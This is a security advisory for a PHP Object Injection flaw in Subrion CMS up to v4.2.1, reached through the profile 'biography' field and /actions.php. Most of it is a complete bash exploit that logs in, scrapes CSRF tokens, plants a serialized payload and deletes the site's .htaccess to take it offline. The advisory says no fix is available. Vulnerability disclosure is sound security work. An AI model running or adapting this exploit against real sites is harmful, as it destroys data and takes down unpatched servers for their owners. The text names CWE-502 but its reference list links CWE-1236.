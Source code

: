 # Actions - PHP Object Injection

This vulnerability was found almost contemporaneously by both me and MS509 Team. As the first public appearance of this issue was made by them on the github page of Subrion, the author of this post is not taking credit for this finding. The aim of this report was to provide a slightly different exploitation method and a public, working exploit.

## VulDB-Like Summary

A vulnerability has been found in the Subrion CMS up to v4.2.1. It has been rated as problematic. Affected by this issue is the file `/actions.php`. The manipulation of the of the **biography** value within a user profile leads to a PHP Object Injection vulnerability. Using CWE to declare the problem leads to CWE-502. Impacted is Integrity and Availability. An attacker might be able inject arbitrary PHP objects within the application context, and use them to achive arbitrary file deletion.

The weakness was originally presented by MS509 on 03/05/2020. A public exploit was released on 04/14/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). The advisory (english) is shared for download at github.com. This vulnerability is not handled as a CVE currently. The attack may be launched remotely. A single form of authentication is required for exploitation. Technical details are known and an exploit is publicly available.

## Proof-of-Concept

The following script may be used to easily verify the vulnerability:

```bash
#!/bin/bash

username="admin"
password="Passw0rd!"
target="http://subrion.local/panel/"
proxy="http://127.0.0.1:8080"
id=1 # ID 1 = Admin
debug=0

# Grep Session Cookie Name
sess_cookie=$(curl -ks -x $proxy $target -I | grep "Set-Cookie" | head -n 1 | grep -oP "INTELLI_\w*\=\w*")
cookies="Cookie: loader=loaded; $sess_cookie"
# Grep CSRF Token
csrf_token=$(curl -ks -x http://127.0.0.1:8080 $target | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)
echo "[*] Logging in"
# Fix the Session Cookie Value and login
res=$(curl -ks -x $proxy $target -X POST --data "__st=$csrf_token&username=$username&password=$password" -H "$cookies" -i | grep "Set-Cookie")

echo "[*] Adding evil PHP Object within biography"
# Get CSRF Token
csrf_token=$(curl -i -s -k -H "$cookies" -x $proxy "$target/panel/members/edit/$id/" | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)

# Generating Payload
payload=$(php serializer.php -c s -t a)

if [ $debug -gt 0 ]; then
    echo $payload
fi

# Add the crafted parameter
res=$(curl -i -s -k -X "POST" -x $proxy -H "Expect:" -H "$cookies" -F "__st=$csrf_token" -F "username=admin" -F "fullname=Administrator" -F "email=admin@subrion.local" -F "email_language=en" -F "save=1" -F "goto=list" --form-string "biography=$payload" "$target/members/edit/1/")

if [[ $(echo $res | grep "HTTP/1.1" | grep "302") == "" ]]; then
    echo "Could not add the evil PHP Object"
    exit 1
fi
echo "[*] Triggering File deletion"
# Get CSRF token
csrf_token=$(curl -ks -H "$cookies" -x $proxy $target | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)
# Get block ID to trigger
res=$(curl -i -s -k -X "POST" -H "$cookies;  XDEBUG_SESSION=XDEBUG_ECLIPSE;" -x $proxy "$(echo $target | sed 's/panel\///g')/actions.json" -F "__st=$csrf_token" -F "action=edit-picture-title" -F "field=biography" -F "item=member" -F "itemid=$id" -F "path=tmp" )

# Confirming deletion, checking 404 
res=$(curl -i -s -k -H "$cookies" -x $proxy "$target/panel/blocks/" | head -n 1 | grep -oP "\d{3}")
if [[ "$res" == "404" ]]; then
    echo "[+] Done! Site damaged!"
else
    echo "[-] Error, site patched!"
fi
```

Using the above script should give the following output, proving the vulnerability.

```
$ ./exploit.sh
[*] Logging in
[*] Adding evil PHP Object
[*] Triggering File deletion
[+] Done! Site damaged!
```

When the script finishes, the site should not be reachable anymore, as the .htaccess has been deleted. In case the configuration of the site is more robust, check for the presence of `.htaccess` within Subrion HOME direcotry.

## Remediation

Currently, no fixes are available for this issue.

## References

*   [https://cwe.mitre.org/data/definitions/1236.html](https://cwe.mitre.org/data/definitions/1236.html)
*   [https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection)